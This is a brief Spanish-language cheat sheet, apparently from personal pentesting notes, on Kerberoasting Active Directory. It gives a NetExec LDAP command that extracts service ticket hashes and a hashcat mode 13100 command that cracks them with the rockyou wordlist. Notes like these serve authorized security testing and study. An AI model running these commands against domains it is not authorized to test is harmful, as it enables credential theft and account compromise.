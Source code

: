 # Kerberoasting 

Tags: #AD #Kerberoasting #Parrot #Kali #HashCat 

## Obtener Hash con CrackMapExec

```bash 
❯ nxc ldap IP -u 'user' -p 'Password' --kerberoast output.txt

Nota: 
	1. Tener la IP con el dominio en '/etc/hosts'
```

## Crackear el Hash obtenido 

```bash 
# Guardar y crackear el hash con 'Hashcat'
❯ hashcat -m 13100 --force hash-kerberoasting /usr/share/wordlists/rockyou.txt

	# m = Método por fuerza bruta
	# 13100 = TGS de un Kerberoasting
	# hash-kerberoasting = Archivo que contiene el hash 
	# rockyou = Diccionario a usar 
```